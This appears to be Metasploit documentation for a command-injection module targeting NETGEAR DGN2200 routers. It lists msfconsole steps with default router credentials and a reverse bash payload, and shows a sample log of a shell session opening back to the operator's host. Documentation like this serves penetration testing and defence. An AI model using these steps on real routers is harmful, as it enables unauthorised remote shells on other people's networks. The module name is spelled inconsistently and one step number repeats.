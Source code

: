## Vulnerable Application

  NETGEAR DGN2200v1, DGN2200v2, DGN2200v3, DGN2200v4 routers

## Verification Steps

  1. start `msfconsole`
  2. `use exploit/linux/http/netger_dnslookup_cmd_exec`
  3. `set RHOST 192.168.1.1` `<--- Router IP`
  4. `set USERNAME xxxx` (see [here]())
  5. `set PASSWORD xxxx` (see [here]())
  5. `set PAYLOAD cmd/unix/reverse_bash`
  6. `set LHOST 192.168.1.x`
  7. `set LPORT xxxx`
  8. `run`
  9. Get a session

## Options

  **USERNAME**

  The `USERNAME` option sets the username to authenticate the request with.
  The command injection will __not__ succeed if the username and password are not correct.
  The default username for NETGEAR Routers is `admin`. If you don't know the credentials,
  your best bet will be to use the default username and password.
  
  
  **PASSWORD**
  
  The `PASSWORD`options sets the password to authenticate the request with.
  The command injection will __not__ succeed if the username and password are not correct.
  The default password for NETGEAR Routers is `password`. If you don't know the credentials,
  your best bet will be to use the default username and password.
  
## Advanced Options
  
  **HOSTNAME**
  
  The request is went with a `host_name` POST parameter. This option sets this parameter. 
  The default is `www.google.com`. The reason for the parameter is that the file that this
  vulnerability is located in (`dnslookup.cgi`) actually needs a domain to resolve, or else 
  the injection won't work.
  

## Scenarios

  What it should look like against a vulnerable router.

  ```
msf > use exploit/linux/http/netgear_dnslookup_cmd_exec 
msf exploit(netgear_dnslookup_cmd_exec) > options

Module options (exploit/linux/http/netgear_dnslookup_cmd_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Password to authenticate with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                      yes       The target address
   RPORT     80               yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME                   yes       Username to authenticate with
   VHOST                      no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   NETGEAR DDGN2200 Router


msf exploit(netgear_dnslookup_cmd_exec) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf exploit(netgear_dnslookup_cmd_exec) > set USERNAME admin
USERNAME => admin
msf exploit(netgear_dnslookup_cmd_exec) > set PASSWORD password
PASSWORD => password
msf exploit(netgear_dnslookup_cmd_exec) > run

[*] Started reverse TCP double handler on 192.168.1.9:4444 
[+] Router is a NETGEAR router (DGN2200v1)
[*] Sending payload...
[*] Command shell session 1 opened (192.168.1.9:4444 -> 192.168.1.9:53352) at 2017-03-02 19:36:47 -0500
```
  

